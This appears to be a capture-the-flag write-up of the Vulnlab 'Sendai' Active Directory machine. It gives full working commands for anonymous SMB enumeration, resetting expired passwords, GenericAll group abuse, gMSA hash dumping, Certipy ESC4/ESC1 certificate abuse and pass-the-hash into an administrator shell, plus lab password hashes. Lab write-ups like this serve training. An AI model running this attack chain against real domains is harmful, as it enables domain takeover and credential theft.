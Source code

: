 ```yaml
---
title: Vulnlab-Sendai
date: 2024-07-04 02:07:00 +/-TTTT
categories: [Active-Directory]
tags: [ChangePasswd, ReadGMSAPassword, Certipy, ESC4, ESC1]     # TAG names should always be lowercase
---
```


![alt text](../assets/images/sendai_slide.png)

# Initial enumeration

## Nmap Scan

    PORT     STATE SERVICE       VERSION
    53/tcp   open  domain        Simple DNS Plus
    80/tcp   open  http          Microsoft IIS httpd 10.0
    |_http-server-header: Microsoft-IIS/10.0
    |http-methods: 

    88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-07-04 04:27:58Z)
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
    |_ssl-date: TLS randomness does not represent time
    | ssl-cert: Subject: commonName=dc.sendai.vl
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sendai.vl
    | Not valid before: 2024-07-04T03:40:19
    |_Not valid after:  2025-07-04T03:40:19
    443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
    445/tcp  open  microsoft-ds?
    3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=dc.sendai.vl
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.sendai.vl

>I see that the SMB protocol is working and I realize that I can list the shares here anonymously.

    ➜  sendai smbclient -L \\dc.sendai.vl                    
    Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        config          Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        sendai          Disk      company share
        SYSVOL          Disk      Logon server share 
        Users           Disk  

 Here I look at the "sendai" post and find some usernames there.

![alt text](../assets/images/Screenshot_2024-07-04_00_38_58.png)

Afterwards, I understand that there are some notifications in the system, that some users are disabled because their passwords are weak or that they are forced to change their passwords, so I try an empty password on the usernames I find.

![alt text](../assets/images/2024-07-04-004231_1451x347_scrot.png)

I see that the user named "elliot.yates" and "thomas.powell" do not have a password and those passwords needs to be changed.

I will use the smbpasswd script in the impacket to change the password of this users.

    ➜  sendai impacket-smbpasswd senndai.vl/thomas.powell@dc.sendai.vl -newpass 'Osman.irem361'
    Impacket v0.12.0.dev1 - Copyright 2023 Fortra

    ===============================================================================
      Warning: This functionality will be deprecated in the next Impacket version  
    ===============================================================================

    Current SMB password: 
    [!] Password is expired, trying to bind with a null session.
    [*] Password was changed successfully.


![alt text](../assets/images/Screenshot_2024-07-04_00_48_18.jpg)


But this service isn't exposed to us so moving on to enumerating the domain with bloodhound.

    ➜  sendai bloodhound-python -d 'sendai.vl' -u 'sqlsvc' -p '<redacted>' -c all -ns 10.10.96.134


Thomas.Powell is a member of Support group has GenericAll on ADMSVC group which has ReadGMSAPassword on MGTSVC$ account. We'll need to add thomas in ADMSVC group, read the NThash of MGTSVC account.

![alt text](../assets/images/Screenshot_2024-07-04_00_56_34.png)

## Abusing GenericAll and reading GMSA password

Through bloodyAD we can add thomas in ADMSVC group having genericall rights.

[bloodyAD](https://github.com/CravateRouge/bloodyAD)

    ➜  bloodyAD git:(main) python3 bloodyAD.py --host 10.10.97.48 -d sendai.vl -u 'thomas.powell' -p 'Osman.  irem361' add groupMember ADMSVC thomas.powell
    [+] thomas.powell added to ADMSVC

With gmsadumper script or with netexec we can dump the nthash of mgtsvc account

[gMSADumper](https://github.com/micahvandeusen/gMSADumper)


    ➜  gMSADumper git:(main) ✗ python3 gMSADumper.py -u 'thomas.powell' -p 'Osman.irem361' -d 'sendai.vl'                                                     

    Users or groups who can read password for mgtsvc$:
    admsvc
    mgtsvc$:::57ae3a74c<redacted>
    mgtsvc$:aes256-cts-hmac-sha1-96:aa14b9413bb2c<redacted>
    mgtsvc$:aes128-cts-hmac-sha1-96:984cf<redacted>

Lets got shell with evil-winrm and upload [PrivescCheck](https://github.com/itm4n/PrivescCheck) amd looking for new road :D

![alt text](../assets/images/0_58jLxprmaaYyP-4-.png)

## Enumerating ADCS

This user belongs to CA-Operators group, so he likely will be able to enroll in a custom template, enumerating templates with certipy

## Escalating privileges through ESC4

![alt text](../assets/images/Screenshot_2024-07-04_01_06_52.png)

    ➜  sendai certipy-ad find -vulnerable -u clifford.davey@sendai.vl -dc-ip 10.10.97.48 -stdout
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    Password:
    [*] Finding certificate templates
    [*] Found 34 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 12 enabled certificate templates
    [*] Trying to get CA configuration for 'sendai-DC-CA' via CSRA
    [!] Got error while trying to get CA configuration for 'sendai-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
    [*] Trying to get CA configuration for 'sendai-DC-CA' via RRP
    [*] Got CA configuration for 'sendai-DC-CA'
    [*] Enumeration output:

    [!] Vulnerabilities
      ESC4                              : 'SENDAI.VL\\ca-operators' has dangerous permissions

This lists down a template SendaiComputer which has EKU set to Client Authentication that can be used to authenticate on the system and ca-operators group has Full control over this template which means we can edit this template and impersonate as the domain admin, which is known as ESC4 (access control) abuse

[Vulnerable Certificate Template Access Control - ESC4](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#vulnerable-certificate-template-access-control-esc4)

    ➜  sendai certipy-ad template -username clifford.davey@sendai.vl -password <redacted> -template SendaiComputer -save-old                                                                          

    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Saved old configuration for 'SendaiComputer' to 'SendaiComputer.json'
    [*] Updating certificate template 'SendaiComputer'
    [*] Successfully updated 'SendaiComputer'

This template has now been made vulnerable to ESC1.

    ➜  sendai certipy-ad req -u clifford.davey@sendai.vl -p '<redacted>' -dc-ip 10.10.97.48 -ca sendai-DC-CA -template SendaiComputer -upn administrator
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Requesting certificate via RPC
    [*] Successfully requested certificate
    [*] Request ID is 5 
    [*] Got certificate with UPN 'administrator'
    [*] Certificate has no object SID
    [*] Saved certificate and private key to 'administrator.pfx'

I get a key with the command and with this key I can request the TGT of the administrator user or capture the NT hash and perform a pass the hash attack.

AND BOOOOMMMMMMMMM!!!!!!!!!!!!!!!!!!!!!!

    ➜  sendai certipy-ad auth -pfx administrator.pfx -username Administrator -domain sendai.vl    
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Using principal: administrator@sendai.vl
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'administrator.ccache'
    [*] Trying to retrieve NT hash for 'administrator'
    [*] Got hash for 'administrator@sendai.vl': aad3b435b51404eeaad3b435b51404ee:cfb106feec8b89a3d98e14dcbe8d087a
    ➜  sendai evil-winrm -i 10.10.97.48 -u administrator -H cfb106feec8b89a3d98e14dcbe8d087a
                                        
    Evil-WinRM shell v3.5
                                        
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
    Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
    Info: Establishing connection to remote endpoint
    *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
    sendai\administrator    